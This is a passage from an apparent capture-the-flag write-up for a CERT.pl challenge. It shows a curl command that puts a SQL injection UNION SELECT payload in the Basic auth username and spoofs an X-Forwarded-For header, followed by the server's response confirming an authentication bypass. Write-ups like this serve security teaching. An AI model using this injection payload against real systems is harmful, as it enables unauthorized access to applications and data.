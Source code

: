 Let's try to do this:


```
$ curl --verbose --user-agent "hackerone.com/bl4de" --header "X-Forwarded-For: 175.45.176.100" --user "name' or '1'='2' UNION SELECT 'anyone','5f4dcc3b5aa765d61d8327deb882cf99'--":password  http://ecsm2017.cert.pl:6044/index.php/instructions

*   Trying 136.243.148.95...
* TCP_NODELAY set
* Connected to ecsm2017.cert.pl (136.243.148.95) port 6044 (#0)
* Server auth using Basic with user 'name' or '1'='2' UNION SELECT 'anyone','5f4dcc3b5aa765d61d8327deb882cf99'--'
> GET /index.php/instructions HTTP/1.1
> Host: ecsm2017.cert.pl:6044
> Authorization: Basic bmFtZScgb3IgJzEnPScyJyBVTklPTiBTRUxFQ1QgJ2FueW9uZScsJzVmNGRjYzNiNWFhNzY1ZDYxZDgzMjdkZWI4ODJjZjk5Jy0tOnBhc3N3b3Jk
> User-Agent: hackerone.com/bl4de
> Accept: */*
> X-Forwarded-For: 175.45.176.100
>
< HTTP/1.1 200 OK
< Date: Thu, 16 Nov 2017 23:37:34 GMT
< Server: Apache
< Vary: Accept-Encoding
< Content-Length: 296
< Content-Type: text/html; charset=UTF-8
<
<html>
<head>
<style>
body { background-color: #AA0000; color: white; font-size: 300%;}
</style>
</head>
<body>

<nav>
    <a href="/index.php/home">집</a>
    |
    <a href="/index.php/instructions">명령</a>
</nav>

<hr />

<h2>안녕하십니까</h2><h3>메시지 없음</h3>
</body>
* Connection #0 to host ecsm2017.cert.pl left intact
</html>

```

And we're in! See ```<h2>안녕하십니까</h2><h3>메시지 없음</h3>``` in response body? This is HTML fragment which we can get only when in this fragment ```count($data)``` returns something:
